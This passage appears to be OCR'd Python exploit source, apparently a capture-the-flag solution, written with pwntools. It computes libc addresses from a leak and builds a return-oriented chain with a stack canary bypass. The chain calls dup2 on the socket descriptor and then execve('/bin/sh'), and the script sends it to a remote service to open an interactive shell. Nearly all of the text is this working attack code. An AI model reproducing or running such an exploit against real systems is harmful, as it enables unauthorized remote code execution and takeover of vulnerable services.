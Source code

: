     libc_base = u64(libc_write) - write_offset
    dup2 = p64(libc_base + dup2_offset)
    binsh = p64(libc_base + binsh_offset)
    execve = p64(libc_base + execve_offset)
    log.success("Calculated addresses:")
    print(f"    libc_base:          0x{libc_base:016x}")
    print(f"    dup2:               0x{u64(dup2):016x}")
    print(f"    execve:             0x{u64(execve):016x}")
    print(f"    binsh:              0x{u64(binsh):016x}")

    exploit =  junk + canary + rbp

    # dup2(4,0)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += dup2

    # dup2(4,1)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(1)
    exploit += p64(1)
    exploit += dup2

    # dup2(4,2)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(2)
    exploit += p64(2)
    exploit += dup2

    # execve("/bin/sh", 0, 0)
    exploit += pop_rdi_ret
    exploit += binsh
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(0)
    exploit += execve

    time.sleep(1)
    log.info("Sending shell exploit")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    p.interactive()
    p.close()
